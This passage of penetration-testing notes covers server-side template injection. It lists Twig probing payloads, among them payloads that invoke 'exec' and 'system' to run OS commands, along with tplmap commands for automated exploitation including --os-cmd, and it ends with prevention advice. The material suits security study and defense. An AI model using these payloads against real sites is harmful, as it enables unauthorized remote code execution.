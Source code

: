 #### Constructing a custom exploit using developer-supplied objects
Some template engines run in a secure, locked-down environment by default in order to mitigate risks, but
developer-created objects that are exposed to the template can offer a further, less battle-hardened attack surface.
Site-specific objects are almost certainly not documented at all. Steps: 
1. Investigate the website's behavior manually to identify the attack surface.
2. Construct your own custom exploit accordingly. 

${{&#x3C;%[%'"}}%\ -> Twig PHP
{7*7} -> error
7*7 -> 49
7*7}}&#x3C;tag> -> 49&#x3C;tag>}}
7*7}}{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}} -> not fails but no output
{{_self}} -> index
{{['id',""]|sort('system')}} -> array
</code></pre>

## Go/Golang SSTI

[https://www.onsecurity.io/blog/go-ssti-method-research/](https://www.onsecurity.io/blog/go-ssti-method-research/)

[https://blog.takemyhand.xyz/2020/06/ssti-breaking-gos-template-engine-to](https://blog.takemyhand.xyz/2020/06/ssti-breaking-gos-template-engine-to)

## Vulnerable Source Code

If we see sth like **render\_template\_string** function, it might be vulnerable

## Automatic exploitation

```sh
https://github.com/epinna/tplmap
GET  -> tplmap -u <url>/?<vulnparam>
POST -> tplmap -u <url> -d '<vulnparam>'
tplmap -u <url> -d '<vulnparam>' --os-cmd 'id'
```

## How to prevent server-side template injection vulnerabilities

* Not allow any users to modify or submit new templates.
* Use a "logic-less" template engine, such as Mustache. Separating the logic from presentation as much as possible can greatly reduce your exposure.
* Only execute users' code in a sandboxed environment.
* Accept that arbitrary code execution is all but inevitable and apply your own sandboxing by deploying your template environment in a locked-down Docker container, for example.
